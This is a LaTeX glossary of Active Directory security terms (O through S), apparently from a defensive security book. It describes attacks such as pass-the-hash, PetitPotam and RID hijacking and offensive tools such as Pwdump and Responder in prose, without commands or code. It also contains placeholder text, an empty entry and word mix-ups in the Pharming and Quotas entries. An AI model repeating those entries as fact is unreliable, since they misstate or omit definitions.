\runinhead{Out-of-the-Box Configuration} The default settings and configuration that come with a system or software when it is first installed. These configurations can sometimes be insecure, so it is important to harden them based on best practices to avoid easy exploitation.

\runinhead{Outbound Replication} Outbound replication is the process by which a domain controller replicates changes to other domain controllers. If an attacker can manipulate this process, they can propagate malicious changes across the domain.

\runinhead{Outbound Trust} A trust relationship between two domains for the purpose of authentication. The outbound trust is from the perspective of the domain that trusts another domain.

\runinhead{Outlook Anywhere} Outlook Anywhere allows access to your Exchange Server from your Outlook client without using VPN. This can provide a potential entry point for attackers if not properly secured.

\runinhead{Outlook Web Access (OWA)} OWA provides the ability to access email via a Web browser. If not secured properly, this can provide an entry point for attackers.

\runinhead{Overlapping Site Link} In this configuration, two site links have sites in common. This configuration can lead to inefficient replication traffic if not properly managed, providing potential opportunities for an attacker to intercept sensitive data.

\runinhead{Overpass-the-Hash Attack} An overpass-the-hash attack is similar to a pass-the-hash attack but involves Kerberos rather than NTLM. The attacker uses a user password hash to generate a Kerberos preauthentication hash, which is then used to request a ticket granting ticket (TGT) from the domain controller.
\textit{See also: Kerberos; Pass-the-Hash (PtH) attack}

\runinhead{Owner} In Active Directory, every object has an owner, which has certain rights over the object. An attacker who takes ownership of an object could potentially misuse those rights.

\runinhead{Owner Rights} This security principle represents the current owner of an object. An attacker gaining owner rights can modify important attributes of the object, leading to security breaches.

\section*{P}
\runinhead{Parent Container} In Active Directory, the parent container refers to the object of the higher level container that holds other objects within.

\runinhead{Parent Object} An object is either the root of a tree of objects or has a parent object above it in the tree hierarchy. If two objects have the same parent, they must have different relative distinguished names (RDNs).

\runinhead{Parent-Child Domain Relationship} A hierarchical relationship between two domains in Active Directory, where one domain is the parent and the other is the child. Child domains inherit policies from their parent domain.

\runinhead{Partial Attribute Set (PAS)} The subset of attributes that replicate in replicas of partial naming contexts (NC). Specifies which attributes should be replicated to Global Catalog servers.

\runinhead{Partition} A logical division of the Active Directory database that stores objects and attributes. Partitions include the schema partition, the configuration partition, and the domain partitions. Proper partition management is essential for maintaining the integrity and scalability of the directory.

\runinhead{Pass-the-Hash (PtH) Attack} In a pass-the-hash attack, an attacker gains access to the password hash of a user’s account in Active Directory and uses it to authenticate and impersonate the user without knowing the actual password. This attack takes advantage of weak hashing algorithms or stolen password hashes.

\runinhead{Pass-the-Ticket (PtT) Attack} In a pass-the-ticket attack, an attacker steals a Kerberos ticket-granting ticket (TGT) from a user’s machine and uses that TGT to gain unauthorized access to resources, without need to authenticate.

\runinhead{Pass-Through Authentication} This type of authentication enables users to use the same username and password on premises and in the cloud, without the need for a third-party federation system.

\runinhead{Password Change Notification Service (PCNS)} This feature enables synchronization of password changes in Active Directory to other systems. For example, when a user changes their password in Active Directory, the PCNS ensures that this change is reflected in other systems that the user has access to.

\runinhead{Password Complexity} A requirement in the password policy that requires the use of strong passwords containing a combination of upper- and lowercase letters, numbers, and special characters. Enforcing password complexity makes it harder for attackers to guess or crack passwords. Although strong password complexity requirements are important, it is equally crucial to educate users about the importance of password hygiene, avoiding password reuse across multiple accounts, and adopting additional security measures like multifactor authentication for enhanced protection.

\runinhead{Password Expiration} A policy that requires users to change their passwords after a specified time interval. Password expiration helps enforce regular password updates and reduces the risk of compromised credentials being used for an extended period.

\runinhead{Password Filter} A component of Active Directory that intercepts and validates password changes to enforce custom password policies or perform additional checks. Password filters are used to improve password security and prevent weak or easily guessed passwords from being set.

\runinhead{Password Hash} A mathematical representation of a user’s password stored in Active Directory. Attackers target password hashes because they can be cracked offline, allowing unauthorized access to user accounts. Techniques like Pass-the-Hash attacks exploit password hashes.

\runinhead{Password Hash Synchronization} A feature of Azure AD Connect that synchronizes the password hashes of Active Directory user accounts on premises to Azure AD (Entra ID), enabling users to use their on premises passwords to log in to cloud services. Protecting password hash synchronization is crucial to prevent user credentials from being compromised.

\runinhead{Password History} This mechanism in Active Directory prevents users from reusing previously used passwords by maintaining a history of their password changes. Password history policies improve security by discouraging the reuse of old passwords.

\runinhead{Password Lockout} This security feature in Active Directory temporarily locks a user account after a specified number of failed login attempts. Password lockout policies help prevent brute-force attacks and unauthorized access attempts.

\runinhead{Password Policy} A set of rules and requirements that dictate the complexity, length, expiration, and other characteristics of user passwords in Active Directory. Weak password policies can make user accounts susceptible to brute-force attacks and credential guessing.

\runinhead{Password Policy Enforcement} The process of ensuring that the defined password policies are enforced and adhered to by all users within Active Directory. Proper enforcement of the password policy helps mitigate the risk of weak passwords and improves overall security.

\runinhead{Password Reset} The process of changing a user’s forgotten or expired password in Active Directory. Proper implementation of password reset procedures ensures secure and authorized access restoration while minimizing the risk of social engineering or unauthorized password changes.

\runinhead{Password Setting Object (PSO)} Objects in the Active Directory system container that implement fine-grained password policies (FGPP).

\runinhead{Password Spray Attack (Password Spraying)} A technique used by attackers to guess common or weak passwords against a large number of user accounts in Active Directory, with the aim of avoiding account lockouts and increasing the chances of successful authentication. Rather than trying multiple passwords against one user, which can trigger account lockouts, an attacker tries one commonly used password against multiple accounts, reducing the risk of detection and increasing the chance of successful authentication.

\runinhead{Passwordless Authentication} An authentication method that eliminates the need for traditional passwords, often replaced by biometric factors (e.g., fingerprint or facial recognition), hardware tokens, or other secure authentication methods. Passwordless authentication reduces the risk of password-related attacks and can enhance user convenience.

\runinhead{Patch Management} The process of regularly applying software updates (patches) to fix vulnerabilities and bugs in Active Directory components and associated systems. Failing to patch systems can leave them exposed to known exploits and attacks.

\runinhead{PDC Emulator} One of the five Flexible Single Master Operations (FSMO) roles in AD, a PDC emulator acts as the Windows NT Primary Domain Controller (PDC) for backward compatibility. The PDC Emulator is responsible for handling password changes, user lockouts, and Group Policy. It also serves as the primary time source for the domain. The PDC Emulator is targeted by most Group Policy tools. A domain controller in each domain must hold this role.
\textit{See also: Flexible Single Master Operations (FSMO) Roles}

\runinhead{Permission inheritance} The process by which objects in Active Directory inherit permissions from their parent containers or organizational units (OUs). Understanding and properly managing permission inheritance is important to ensure consistent access control and prevent unintended access to sensitive resources.
\textit{See also: Inheritance}

\runinhead{Permissions} Access rights granted to users, groups, or computer accounts that determine what actions they can perform on Active Directory objects. Misconfigured permissions can lead to unauthorized access, increased privileges, or exposure of sensitive information.

\runinhead{Petition Attack (Access Token Manipulation)} An attacker uses a valid account to generate an access token and modifies the token to elevate privileges, allowing the attacker to execute commands or access resources that would normally be beyond their permissions.

\runinhead{PetitPotam} PetitPotam is an attack method in which cyber-attackers force a victim client to authenticate to an arbitrary machine without any user interaction. When PetitPotam is exploited and Windows NT LAN Manager (NTLM) credentials are sent to Active Directory Certificate Services, a cyberattacker can get Domain Administrator privileges without prior authentication to the domain.

\runinhead{Pharming} Pharming is a cyberattack technique that redirects users from legitimate websites to fraudulent ones, usually by compromising DNS settings or modifying local host files. Unlike phishing, which relies on tricking users into clicking malicious links, phishing can silently redirect traffic even when a user typed the correct URL. The thought process behind pharmacy is to capture sensitive information, such as usernames, passwords, or financial data. In an Active Directory environment, phishing attacks can be especially dangerous if AD-integrated DNS servers are compromised, as this would allow attackers to redirect authentication traffic, harvest credentials, or impersonate critical services. Properly securing AD DNS and monitoring for unauthorized changes is essential to mitigate this risk.

\runinhead{Phishing} A deceptive technique used by attackers to trick users into revealing their credentials or sensitive information through fraudulent emails, websites, or other communication channels. Phishing attacks often target Active Directory users to gain unauthorized access to the network. Once they obtain the user credentials, they will begin to gather information on the system resources and attempt to move laterally through the network. Additionally, these credentials can be used to create more precise, personalized, and dedicated attacks on specific high-value company users.

\runinhead{PingCastle} PingCastle is an Active Directory assessment tool written in C#. Based on built-in models and rules, this tool evaluates AD subprocesses and generates a risk report that includes a score for privileged accounts, trust relationships between AD domains, insights into stale objects and security anomalies. For hybrid environments, it can also provide insight into whether the trust relationship with Azure AD is secure. Attackers can use this tool to analyze the state of the AD environment and identify potential vulnerabilities.

\runinhead{PowerSploit} A PowerShell Post-Exploitation Framework, PowerSploit is widely used by attackers for various tasks such as executing payloads, exfiltration, privilege escalation, and more in an AD environment.

\runinhead{Pre-Windows 2000 Compatible Access Group} This built-in group in Active Directory includes all user and computer accounts that need compatibility with older Windows NT 4.0–based systems.

\runinhead{Pre-Windows 2000 Name} Used for compatibility purposes with older operating systems. For user and group objects, this name is the value of the sAMAccountName attribute.

\runinhead{Primary Domain Controller (PDC)} In Windows NT-based domains the primary domain controller (PDC) was the first domain controller in the domain, and it had zero or more backup domain controllers (BDC). A domain controller (DC) designated to track changes made to the accounts of all computers in a domain. Although used by many, the PDC concepts no longer apply in Windows 2000 and above Active Directory, as all domain controllers are essentially equal from a replication perspective, because it uses multi-master replication model. Not to be confused with PDC emulator.

\runinhead{Primary Group} A group assigned to each user in Active Directory, representing their primary affiliation within the domain. Used mostly for POSIX compliance. Primary groups are used for access control and are associated with permissions on resources.

\runinhead{Primary SMTP Address} The email address associated with a user or mailbox that is considered the primary address for communication. Active Directory uses the primary SMTP address as the unique identifier for email-related operations.

\runinhead{Privilege} The right of a user to perform system-related operations, such as debugging the system. Rights and privileges are effectively the same and are granted to security principals such as users, services, computers, or groups. Some (such as Enable computer and user accounts to be trusted for delegation) apply to Active Directory, whereas others (such as Change the system time) apply to the Windows operating system. The user is considered a member of its primary group. The user’s authorization context specifies what privileges are held by that user.

\runinhead{Privilege Delegation} The process of assigning specific administrative privileges or rights to non-administrator users or groups within Active Directory. Privilege delegation allows users to perform specific tasks without granting them full administrative access, minimizing the risk of privilege abuse or unauthorized changes.

\runinhead{Privilege Escalation} The process of gaining higher levels of access and permissions than originally assigned. Privilege escalation attacks within Active Directory can enable attackers to bypass security controls and gain administrative privileges. Once inside your environment, cyberattackers typically seek escalation of privileges, from lower- to higher-privileged accounts, in an effort to gain administrative privilege and access to Active Directory.
\textit{See also: Domain Dominance; Lateral Movement; Privileged Access}

\runinhead{Privilege Separation} The practice of dividing administrative privileges between multiple user accounts in Active Directory, ensuring that no single account has excessive or unrestricted access. Separation of privileges helps minimize the impact of compromised accounts and reduces the risk of unauthorized actions.

\runinhead{Privileged Access} Privileged access grants higher than standard rights and control over resources in an environment higher than standard. This type of access should be granted sparingly, as gaining control of a privileged access account can enable cyberattackers to shut down or disable Active Directory and gain control of your network.
\textit{See also: Domain Dominance; Lateral Movement; Privilege Escalation}

\runinhead{Privileged Access Management (PAM)} A solution in Microsoft Identity Manager (MIM) that helps mitigate security concerns associated with the escalation or misuse of administrative privileges.

\runinhead{Privileged Account} An account with elevated permissions and access rights that can perform administrative tasks within Active Directory. Compromised privileged accounts are a prime target for attackers as they can grant extensive control over the domain.

\runinhead{\texttt{PsExec}} PsExec is a light-weight telnet-replacement that lets you execute processes on other systems. Attackers use this as a tool for lateral movement in an AD environment.

\runinhead{PsTools} PsTools is a set of widely used command-line tools that allow you to manage local and remote systems. These tools can be used by attackers for various tasks, such as running processes remotely, shutting down systems, or viewing system information.

\runinhead{\texttt{PTH-Winexe}} Part of the pass-the-hash toolkit, PTH-Winexe allows execution of commands on Windows systems by passing NTLM hashes instead of plaintext credentials, enabling lateral movement and remote command execution.

\runinhead{Public Key} A cryptographic key used in asymmetric encryption algorithms, consisting of public and private keys. Public keys are widely distributed and are used to encrypt data or verify digital signatures in Active Directory communications.

\runinhead{Public Key Certificate} A digitally signed document that binds a public key to the identity of an entity, validating the authenticity and integrity of the public key. Public-key certificates are used in Active Directory for secure communication, authentication, and encryption.

\runinhead{Public Key Infrastructure (PKI)} A framework of cryptographic services, technologies and protocols used to establish and manage digital certificates, public-private key pairs, and secure communication in Active Directory. PKI is crucial to ensure secure authentication, data integrity, and confidentiality.

\runinhead{\texttt{Pwdump}} Pwdump is a tool that extracts NTLM and LanMan password hashes from the Windows Security Account Manager (SAM), which can then be cracked offline. This can lead to unauthorized access if strong password policies are not in place.

\runinhead{Pass-the-Hash (PtH)} Exploits the NTLM authentication protocol by capturing and reusing a user's password hash to log in as that user, bypassing the need for the actual password.

\runinhead{Pass-the-Ticket (PtT)} A Pass-the-Ticket (PtT) attack is similar in nature to Pass-the-Hash (PtH) but uses Kerberos authentication tickets to move laterally across a domain network.

\runinhead{Persistence} In the context of hacking, persistence refers to techniques used by attackers to maintain access to a compromised system even after system reboots, restarts, reimages, user logoffs, or other disruptions. It allows them to establish a long-term presence on the target network, enabling further attacks, data theft, or other malicious activities.

\runinhead{PowerSploit / PowerView} A collection of PowerShell scripts used for AD enumeration and information gathering to identify vulnerabilities and attack pathways.

\runinhead{Primary Domain Controller (PDC) Emulator} The PDC Emulator is a Flexible Single Master Operations (FSMO) role held by a domain controller. It acts as the primary domain controller for password changes, time synchronization, and Group Policy Object (GPO) updates within a domain.

\section{Q}
\runinhead{Qualitative Risk Management} Write down a description of the glossary term. Write down a description of the glossary term. Write here the description of the glossary term.
\runinhead{Quantitative Risk Management}

\runinhead{Query} A query in Active Directory refers to a request made to the directory service to retrieve specific information, such as the details of a user or a computer. AD queries are essential for managing and controlling access to resources. The lightweight Directory Access Protocol (LDAP) is commonly used to perform queries against the AD database. For example, an administrator might run a query to find all the users in a specific department.

\runinhead{Quotas} The quotations in Active Directory refer to the limits placed on the number of objects that a security principal (such as a user or a group) can own in a directory partition. This is particularly important in a large distributed environment to prevent any user or group from creating so many objects that it affects AD performance or storage.

\section*{R}
\runinhead{Rainbow Table} A precomputed textual table used to reverse cryptographic hash functions, primarily to crack password hashes. Each rainbow table is specific to a certain hash function, character set, and password length. Rainbow tables contain millions or even billions of precomputed hashes for potential passwords. An attacker who obtains the hashed version of a password (perhaps through a data breach or by penetrating an inadequately secured Active Directory system) can use a rainbow table to look up that hash and potentially find the original password.

\runinhead{RainbowCrack} A tool that attempts to crack password hashes with rainbow tables.

\runinhead{Ransomware} A type of malware that encrypts the data of a victim until payment is made to the cyberattacker. Victims are told that if payment is made, they will receive a decryption key to restore access to their files, although this is often a ruse. In a double-extortion attack, not only is the decryption key withheld, but the malicious actor also threatens to publish the data on data leak sites (DLS). Ransomware groups are often connected to criminal or terrorist organizations or to hostile nation states. The payment of a ransom typically funds further criminal activities.
\textit{See also: Malware; Ransomware-as-a-Service (RaaS)}

\runinhead{Ransomware-as-a-Service (RaaS)} A business model in which threat actors lease or purchase ransomware variants from ransomware developers in the same way that organizations lease SaaS products from legitimate software developers. RaaS has grown in popularity in recent years.

\runinhead{Read-Only Domain Controller (RODC)} RODC servers are Domain Controllers that hold a read-only copy of the Active Directory database and do not allow changes to AD. An RODC is typically deployed in locations that require quick access to AD services but are not physically secure enough to host a writable domain controller. While an RODC can authenticate user logins, changes are not written directly to it, but rather to a writable domain controller, then replicated back to the RODC.

\runinhead{Read-Write Domain Controller (RWDC)} Writeable domain controllers can be used to update objects in Active Directory. In Active Directory, all domain controllers are writeable, unless they are a Read-Only Domain Controllers (RODC).

\runinhead{Recovery Point Objective (RPO)} A recovery point objective (RPO) sets a limit on how old the data can be before backing up (e.g., 24 hours old). 
\textit{See also: Recovery Time Objective (RTO)}

\runinhead{Recovery Time Objective (RTO)} A recovery time objective (RTO) sets a limit on the amount of time that an application, system, or process can be unavailable (e.g., no more than 2 hours).
\textit{See also: Recovery Point Objective (RPO)}

\runinhead{Recursive DNS Query} A recursive DNS query is a type of DNS query in which the DNS resolver or server attempts to resolve the query by iteratively querying other DNS servers until it obtains the final answer. Clients commonly use this type of query to resolve hostnames to IP addresses.

\runinhead{Recycle Bin} First introduced as an optional feature in Windows Server 2008 R2, this feature creates a new hidden container in the domain tree and stores deleted objects for a specified number of days before permanently removing them, allowing the option to restore them without loss of object attribute values. This feature can be enabled and accessed through the Active Directory Administrative Center (ADAC) console.

\runinhead{Recycled Object} When an object has been deleted, it remains in a hidden container in the domain tree until a configured period of time (that is, the lifetime of the tombstone) has passed, after which the object is permanently removed from storage. These objects exist only when the optional Recycle Bin feature is enabled.

\runinhead{Red Forest} Red Forest, also known as Enhanced Security Admin Environment (ESAE), was a Microsoft security concept in which all your administrative credentials resided in a separate AD forest, trusted by your production AD forests. The approach aimed to remove admin credentials from AD forests and thus improve security. The concept has been retired.

\runinhead{Red Team} In cybersecurity testing, the red team is the group of individuals responsible for attacking cybersecurity defenses of an organization, exploiting system vulnerabilities, and helping to identify counterattack methods for defenders (e.g., the blue team).
\textit{See also: Blue Team}

\runinhead{Registry} The Windows Registry stores configuration settings and options on Microsoft Windows operating systems, including those related to AD. An attacker gaining access to the Registry could change these settings to disrupt AD functionality or increase their privileges.

\runinhead{Relative Distinguished Name (RDN)} The name of an object relative to its parent. This is the leftmost attribute-value pair in the distinguished name (DN) of an object. For example, in the \texttt{DN “cn=Alice Malice,OU=Company Users,DC=hackherway,DC=com”}, the RDN is \texttt{ 'CN = Alice Malice'}

\runinhead{Relative identifier (RID)} A RID is a unique identifier assigned to each object in an AD domain. It is combined with a domain identifier to form a security identifier (SID) for the object. The RID master, one of the FSMO roles, is responsible for processing RID pool requests from all domain controllers in a particular domain.

\runinhead{Relative Identifier (RID) Master} The RID Master is a FSMO role responsible for managing the allocation of Relative Identifiers (RIDs) to domain controllers. These RIDs are used in conjunction with the domain SID to create unique Security Identifiers (SIDs) for all objects within the domain. The RID Master ensures that every user, group, and other object in AD has a unique ID, preventing conflicts.

\runinhead{Remote Access} Remote access refers to methods that allow users to access an AD network from a remote location. Insecure remote access points can be exploited by attackers for unauthorized access to the network.

\runinhead{Remote Desktop Protocol (RDP)} RDP, or Remote Desktop Protocol, is a secure network communications protocol developed by Microsoft that allows users to remotely access and control another computer or virtual machine over a network connection. It enables users to interact with a remote computer as if they were physically present, viewing its desktop, and using its applications and resources.

\runinhead{Remote Desktop Services (RDS)} RDS, formerly known as Terminal Services, allows a user to take control of a remote computer or virtual machine over a network connection.
\textit{See also: Terminal Services}

\runinhead{Remote Management} Remote management refers to the management of computer systems from a remote location. This is especially relevant for administering Domain Controllers spread across various geographical locations. In the context of Active Directory, tools like Remote Server Administration Tools (RSAT) allow administrators to manage roles and features remotely.
\textit{See also: Remote Server Administration Tools (RSAT)}

\runinhead{Remote Procedure Call (RPC)} This is a communication protocol that client programs use to request a service from a program on another computer in the network. It is widely used for AD replication and administration; however, it can be exploited for lateral movement if not properly secured.

\runinhead{Remote Server Administration Tools (RSAT)} RSAT is a suite of Microsoft tools that allows administrators to remotely manage Windows Server roles and features from a client machine, such as Windows 10 or 11. In an Active Directory environment, RSAT includes utilities such as Active Directory Users and Computers (ADUC), Group Policy Management Console (GPMC), and DNS management tools. RSAT was created to give administrators centralized remote access to manage AD resources without needing to log directly onto domain controllers; however, because RSAT provides powerful administrative capabilities, attackers who compromise an account with RSAT privileges can manipulate Active Directory objects, group policies, and domain configurations-making it a critical security concern for defenders and security teams alike.

\runinhead{\texttt{Remove-ADOrganizationalUnit}} A PowerShell cmdlet used to delete an Organizational Unit (OU) from Active Directory. OUs are containers that store and organize AD objects often with Group Policy Objects (GPOs) linked to them. This command provides administrators with a direct and automated way to clean up or restructure AD environments. From a security perspective, misuse of this cmdlet-whether intentional or accidental-can result in the deletion of critical AD structures, breaking inheritance, or removing or tampering with security policies; therefore, access to this command should be restricted to trusted admins and monitored closely.

\runinhead{\texttt{Remove-ADUser}} A PowerShell command that removes an AD user. If used maliciously, it can lead to the deletion of legitimate user accounts, potentially causing operational disruptions or data loss.

\runinhead{\texttt{Repadmin}} A command line utility to diagnose Active Directory replication between domain controllers.

\runinhead{Replica} A copy of an Active Directory namespace (NC or naming context) on a domain controller that replicates with other domain controllers within the AD forest.

\runinhead{Replication} Replication in Active Directory refers to the process of copying data from one domain controller to another. This process ensures that each domain controller has the same information as other domain controllers and enables the distribution of the AD database across multiple servers. If replication fails or is delayed, it can lead to inconsistencies, known as replication errors.

\runinhead{Replication Bridgehead Server} A Replication Bridgehead Server is a domain controller designated to manage replication traffic within a site in Active Directory. It acts as a central point for receiving and sending replication data between sites, reducing replication traffic over wide-area networks (WANs).

\runinhead{Replication interval} The replication interval in Active Directory defines the time duration between two consecutive replication cycles between domain controllers. Ensure that changes are propagated efficiently across the network without causing excessive replication traffic.

\runinhead{Replication Latency} Replication latency is the time lag between the final update originating in an AD object and all replicas.

\runinhead{Replication Metadata} Replication metadata in AD is used to resolve conflicts that may occur during replication. Metadata keeps track of which changes have already been applied to prevent old changes from overwriting more recent ones.

\runinhead{Replication Rights} In Active Directory, replication rights refer to permissions that allow a user or application to request and receive information from other domain controllers, including potentially sensitive data such as password hashes. These rights are essential for legitimate directory replication, but can be exploited by attackers.

\runinhead{Replication Topology} Replication topology refers to the structure of connections between domain controllers to replicate data in Active Directory. Describes how changes are propagated across the network to ensure data consistency.

\runinhead{\texttt{Reset-ComputerMachinePassword}} A PowerShell command that resets the machine account password for the computer. If misused, it can disrupt the secure channel between the computer and its domain, leading to a potential denial of service or unauthorized access.

\runinhead{Resilient File System (ReFS)} ReFS is a file system developed by Microsoft for use on Windows operating systems and is designed to overcome some of the limitations of NTFS.

\runinhead{Responder} A network tool that can manipulate network communications and respond to network broadcast requests, Responder is often used in man-in-the-middle attacks, helping attackers intercept and manipulate traffic.

\runinhead{Resultant Set of Policy (RSOP)} A tool in Windows that administrators use to determine the combined effect of Group Policies applied to a system and/or user. Essentially, it provides a cumulative view of all policies from various sources that apply to a specific user or system. This tool can be particularly useful in troubleshooting scenarios, when an administrator needs to understand why a certain policy is or is not taking effect.

\runinhead{REvil (Ransomware Evil)} A Russia-based or Russian-speaking private ransomware as a service (RaaS) operation. REvil (also known as Sodinokibi) ransomware often spreads via brute-force attacks and server exploits, but it can also spread via malicious links and phishing. Cyberattackers can use REvil to exploit Active Directory (AD) misconfigurations or weak passwords to spread across the network.

\runinhead{Revocation} This is the process of invalidating a certificate, a process that can be managed through AD’s Certificate Services. Proper certificate revocation is important to prevent unauthorized use of a certificate in a Man-in-the-Middle attack or other types of cyberattack.

\runinhead{RID Hijacking} In this type of attack, the relative identifier (RID) of a standard domain account is modified to match the RID of a domain admin account, effectively promoting the standard account to the domain admin status.

\runinhead{RID Master} One of the five FSMO (Flexible Single Master Operations) roles in AD, the RID Master is responsible for processing RID pool requests from all DCs within the domain. When objects such as users and computers are created in Active Directory, they are assigned a unique security ID (SID) and a relative ID (RID). The RID master role ensures that no objects in AD are assigned the same SID and RIDs. Any failure of the RID Master role could affect the creation of new objects within the domain. A domain controller in each domain must play this role.
\textit{See also: Flexible Single Master Operations (FSMO) Roles}

\runinhead{Rivest Cipher 4 (RC4)} RC4, also known as Rivest Cipher 4, is a stream cipher algorithm that encrypts data one byte at a time. It was created by Ron Rivest in 1987 and is known for its speed and simplicity. While once widely used in protocols like SSL/TLS and WEP, RC4 is now considered cryptographically weak to support today's current encryption needs and requirements and is no longer recommended for use.

\runinhead{Rivest Cipher 5 (RC5)} In the context of cryptography, RC5 stands for "Rivest Cipher 5," named after its designer Ronald Rivest, an acclaimed cryptographer. The "RC" part can also informally refer to "Ron's Code," and the "5" indicates that it was the fifth cipher developed by Rivest. A symmetric block cipher developed by Ronald Rivest. It is parameterizable: the block size, key size, and number of rounds can be adjusted. Offers better flexibility and performance, but is rarely used in modern systems.

\runinhead{Rivest-Shamir-Adleman (RSA)} RSA is one of the most widely used public-key cryptographic algorithms, named after its inventors Ron Rivest, Adi Shamir, and Leonard Adleman. It enables secure key exchange, digital signatures, and encryption using a pair of keys: a public key for encryption and a private key for decryption. Within Active Directory environments, RSA is fundamental for services like Kerberos authentication, SSL/TLS communications, and Active Directory Certificate Services (AD CS). Because RSA-protected certificates can be leveraged for user and machine authentication, attackers who obtain private keys or misconfigured certificates can bypass password-based protections and impersonate privileged accounts, making RSA central to both AD security and potential abuse.
 
\runinhead{Role-Based Access Control (RBAC)} Role-Based Access Control (RBAC) is a method of restricting system access based on predefined job roles within an organization. Instead of assigning permissions directly to individual users, RBAC assigns them to roles (such as 'Domain Administrator' or 'Helpdesk Technician'), and users inherit those permissions by being added to the role. In Active Directory, RBAC is implemented through security groups, Organizational Unit (OU) delegation, and administrative templates, ensuring that access to sensitive systems is consistent and based on least privilege. Misconfigured RBAC in AD, such as granting overly broad group memberships or failing to separate Tier 0 accounts from Tier 1/2 operations, can result in privilege escalation paths that attackers exploit to gain control of the domain.

\runinhead{Root Directory Service Entry (RootDSE)} The Root Directory Service Entry (RootDSE) is a special LDAP object that exists at the root of the Active Directory forest or domain. It is not tied to a specific domain partition, but instead provides clients with information about the AD environment, such as supported LDAP features, naming contexts, and the functional level of the domain or forest. For administrators, querying RootDSE can reveal useful metadata about an AD deployment. However, for attackers, RootDSE is an attractive reconnaissance tool, as it does not require authentication to query. By issuing anonymous LDAP queries, an adversary can gather details about the AD schema, naming contexts, and capabilities without needing valid credentials, making RootDSE a legitimate and exploitable feature of Active Directory.

\runinhead{Root Domain} The root domain is the first domain created in an Active Directory forest and serves as the foundation for the entire forest structure. It sits at the top of the forest DNS namespace and holds critical roles such as the Enterprise Admins and Schema Admins groups, which have the highest level of privilege across all domains in the forest. Because of this, the root domain is considered a Tier 0 asset, which means that its compromise equates to the compromise of the entire forest. Attackers who escalate privileges to the root domain can manipulate trust relationships, modify the schema, and ultimately control every child domain in the forest, which is why protecting root domain controllers and accounts is a top security priority.

\runinhead{Routing and Remote Access Service (RRAS)} Routing and Remote Access Service (RRAS) is a Windows Server role that provides routing, Virtual Private Network (VPN) and remote access capabilities within a network. In Active Directory environments, RRAS is often used to allow secure remote connectivity for users or to connect branch offices. However, if improperly configured, RRAS can introduce vulnerabilities such as weak authentication, insecure tunneling, or exposed administrative interfaces that attackers can exploit to gain access to the network. Since RRAS often interacts with Active Directory for authentication, a compromised RRAS server could provide an attacker with valid credentials, remote access, or even a direct path into the domain, making it essential to harden and monitor RRAS configurations.

\runinhead{Ryuk} A type of ransomware that is known to target large, public-entity Windows systems. Ryuk encrypts computer files, system access, and data, making it impossible for users to retrieve information or access programs. This attack has an unusual aspect for Active Directory (AD): the ransomware is pushed to unsuspecting users via AD Group Policy Objects (GPO).

\section*{S}
\runinhead{Salting} To defend against rainbow table attacks, it is common to use a method called salting the hashes, where a random value is added to the password before it is hashed. This makes rainbow tables far less effective because even a small change in the input (such as adding a 'salt') results in a drastically different hash. It is worth noting that protecting your password hashes is a crucial aspect of securing an Active Directory environment.

\runinhead{\texttt{sAMAccountName}} The users’ logon name that is used to support clients and servers running earlier versions of Windows. Also called the 'Pre-Windows 2000 logon name'.

\runinhead{SaveTheQueen} In a SaveTheQueen attack, cyberattackers target AD through a strain of ransomware that uses the SYSVOL share on AD domain controllers to propagate throughout the environment. Accessing the SYSVOL share, which is used to deliver policy and log-in scripts to domain members, typically requires elevated privileges and indicates a serious AD compromise.

\runinhead{Schema} The Active Directory schema defines every object class that can be created and used in the Active Directory forest. By default and out of the box, the schema defines every attribute that can exist in an object, the relationships between the various attributes, which one is mandatory, what permissions each one has, and many other parameters. The schema is basically a blueprint or template of how data and what type of data can be stored in Active Directory. From a cyber security perspective, unauthorized changes to the schema can be dangerous because they cannot be undone and may have a destructive effect on the Active Directory data.

\runinhead{Schema Admins Group} The Schema Admins group in Active Directory is a highly privileged group that has full control over the Active Directory schema. Members of this group can modify the schema, including adding or deleting attribute and object class definitions. For example: The Schema Admins group would typically include IT administrators responsible for managing the Active Directory schema, such as implementing schema extensions or performing schema updates.

\runinhead{Schema Extensions} Schema extensions in Active Directory refer to the process of modifying or adding new attribute and object class definitions to the existing Active Directory schema. This enables organizations to customize the schema to accommodate specific application requirements or store additional attributes for objects. For example: An organization may extend the Active Directory schema to include custom attributes for user objects to store additional information such as employee ID numbers or department names.

\runinhead{Schema Master} This is one of the five FSMO (Flexible Single Master Operations) roles in AD, responsible for handling all changes to the Active Directory schema. Unauthorized access to Schema Master can lead to critical changes in the AD structure, enabling severe attacks. A domain controller in the entire forest must hold this role.
\textit{See also: Flexible Single Master Operations (FSMO) Roles}

\runinhead{Schema Object} An object that defines an attribute or an object class.

\runinhead{Secure LDAP (LDAPS)} A version of the LDAP protocol that establishes a secure connection to the LDAP server by applying SSL/TLS. It is crucial to protect the exchange of information between clients and domain controllers from eavesdropping or manipulation.

\runinhead{Secure Sockets Layer (SSL)} A standard protocol used in various protocols such as HTTPS, LDAPS, and others that supports the confidentiality and integrity of messages in client and server applications that communicate over open networks. SSL supports server and, optionally, client authentication using X.509 certificates. SSL is superseded by Transport Layer Security (TLS). TLS version 1.0 is based on SSL version 3.0.

\runinhead{Security Account Manager (SAM)} The SAM is a database that stores users and group objects used by Windows client operating systems to authenticate local users. The user passwords are stored in a hashed format. SAM uses cryptographic measures to prevent unauthenticated users from accessing the system. If an attacker gains access to this database, they can attempt to extract details about the user accounts and their passwords.

\runinhead{Security Assertion Markup Language (SAML)} An XML-based open standard for exchanging authentication and authorization data between parties, specifically between an identity provider and a service provider. SAML is critical in scenarios where secure and seamless single-sign-on (SSO) is needed across different domains. It helps organizations provide a smooth user experience, reducing the need for multiple passwords and log-ins, while maintaining high levels of security and control over user access.

\runinhead{Security Descriptor} In Active Directory, a security descriptor is a data structure that contains the security information associated with a secure object such as users, groups, or computers. Includes owner SID, primary group SID, DACL, and SACL. A security descriptor defines who has what type of access to the object. Misconfiguration in a security descriptor can lead to unauthorized access or privilege escalation.

\runinhead{Security Descriptor Propagator (SDProp)} A process within Active Directory that maintains the consistency of access control lists (ACLs) throughout the directory. It operates at the domain level and ensures that permission changes made to a parent object are properly propagated to all child objects within the hierarchy. Thus, it plays a vital role in the enforcement of security and access control policies across AD infrastructure.

\runinhead{Security Event Log} A collection of Windows logs that capture a range of security-related information, including logon attempts and resource access, which can be invaluable in detecting suspicious activity. If not monitored regularly, malicious activities can go unnoticed, leading to breaches.

\runinhead{Security Group} Security groups can contain multiple accounts such as user objects, computer objects or even other group objects that can be used to easily assign permissions to a resource or apply for permissions. Security groups play a crucial role in securing resources and managing access rights within an Active Directory environment as they are used to apply the permissions to a folder or object to the group instead of every individual account.

